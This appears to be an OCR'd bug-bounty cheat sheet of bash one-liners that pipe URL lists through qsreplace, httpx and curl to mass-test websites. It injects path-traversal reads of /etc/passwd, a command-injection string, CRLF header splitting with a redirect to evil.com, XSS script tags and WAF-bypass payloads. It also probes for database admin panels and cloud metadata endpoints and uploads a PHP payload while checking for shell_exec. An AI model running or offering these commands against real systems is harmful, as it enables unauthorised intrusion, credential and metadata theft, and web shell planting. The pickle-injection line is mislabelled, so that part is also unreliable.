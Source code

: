 📋  Path Traversal (../ Disclosure)  
```bash
cat all_urls.txt | qsreplace '../../../../etc/passwd' | httpx -silent -fr 'root:x' -o path_traversal.txt
```

🐍  Python Pickle Injection (if Flask or Python backend)  
```bash
cat all_urls.txt | qsreplace '__class__=os.system&cmd=id' | httpx -silent -fr 'uid=' -o pickle_injection.txt
```

CRLF Injection (Header Splitting)  
```bash
cat all_urls.txt | qsreplace '%0d%0aHeader: evil' | httpx -silent -fr 'Header: evil' -o crlf.txt
```

💾  Exposed Database Admin Panels  
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/phpmyadmin\n/adminer\n/sql') -mc 200 -o db_admin_panels.txt
```

🧱  File Upload Misconfig (Can upload PHP/JSP)  
```bash
cat upload_endpoints.txt | xargs -I {} curl -X POST -F 'file=@payload.php' {} -s -o - | grep 'shell_exec' -B 2
```

🕵️‍♂️  Cloud Metadata API Exposure (AWS/GCP)  
```bash
cat subdomains.txt | httpx -silent -path /latest/meta-data/ -mc 200 -o metadata_exposed.txt
```

💣  CRLF in Redirect Location Header  
```bash
cat urls.txt | qsreplace '%0d%0aLocation:%20https://evil.com' | httpx -silent -fr 'evil.com' -o crlf_redirect.txt
```

📑  XSS in JSON Response (Reflected)  
```bash
cat urls.txt | qsreplace '"><script>alert(1)</script>' | httpx -silent -fr 'alert(1)' -o xss.json.txt
```

🔌  Exposed Internal IPs (Debug Responses)  
```bash
cat urls.txt | httpx -silent -fr '10\.|172\.|192\.168\.' -o internal_ips.txt
```

🌐  Misconfigured WAF Bypass  
```bash
cat urls.txt | qsreplace '><script>alert(1)</script>' | httpx -silent -mc 403 -o waf_detected.txt
cat waf_detected.txt | qsreplace '><script>alert(1)</script>' | anew bypass_payloads.txt
cat bypass_payloads.txt | httpx -silent -mc 200 -o waf_bypass.txt
```

📤  Information Disclosure via Verb Tampering  
```bash
cat subdomains.txt | httpx -silent -method OPTIONS -o verb_tampering.txt
```
